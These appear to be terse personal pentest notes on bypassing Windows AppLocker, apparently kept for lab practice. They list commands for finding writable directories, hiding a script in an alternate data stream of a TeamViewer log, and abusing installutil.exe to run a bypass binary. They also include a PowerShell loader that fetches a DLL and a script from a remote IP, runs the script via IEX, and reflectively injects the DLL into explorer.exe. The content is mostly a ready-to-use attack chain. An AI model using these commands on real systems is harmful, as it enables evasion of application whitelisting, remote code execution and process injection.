 # Look for perms


- https://www.g0dmode.biz/active-directory-enumeration/applocker-enumeration

- Search for writable directories
```cmd
accesschk.exe "student" C:\Windows -wus
```
- Search for executable directories:
```cmd
icacls.exe C:\Windows\Tasks
```

- alternate data streams
```
type test.js > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
```

- psh language modes:
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Tools\Bypass.exe
```

- reflective dll loader, put this in bypass.exe
```
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.192/bruh.dll')
(New-Object System.Net.WebClient).DownloadString('http://192.168.45.192/Invoke-ReflectivePEInjection.ps1') | IEX
$procid = (Get-Process -Name explorer).Id
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

- check if applocker blocking:
```
Get-WinEvent -LogName "Microsoft-Windows-AppLocker/MSI and Script" -MaxEvents 10
```

